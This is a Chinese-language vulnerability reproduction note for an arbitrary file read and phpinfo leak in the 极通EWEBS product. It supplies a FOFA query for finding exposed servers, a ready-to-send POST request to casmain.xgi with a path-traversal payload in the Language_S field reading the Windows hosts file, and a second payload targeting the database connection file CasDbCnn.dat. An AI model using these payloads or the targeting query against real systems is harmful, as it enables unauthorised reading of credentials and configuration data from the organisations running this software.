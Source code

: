 ## 极通EWEBS任意文件读取和phpinfo泄露

## 漏洞描述

> 极通EWEBS casmain.xgi 任意文件读取漏洞，攻击者通过漏洞可以读取任意文件，存在敏感信息泄露，其中含有配置文件信息以及phpinfo信息

## 漏洞影响

> 极通EWEBS

## FOFA

> app="新软科技-极通EWEBS"

## 漏洞复现

登录页面如下

![1](resource/极通EWEBS/1.png)

漏洞请求包为

```
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN
Content-Length: 57

Language_S=../../../../windows/system32/drivers/etc/hosts
```

![2](resource/极通EWEBS/5.png)

####然后可以访问 testweb.php 页面获取phpinfo信息，根据信息去读取文件内容

![3](resource/极通EWEBS/3.png)

![4](resource/极通EWEBS/4.png)

例如：

```
Language_S=../../Data/CONFIG/CasDbCnn.dat
```

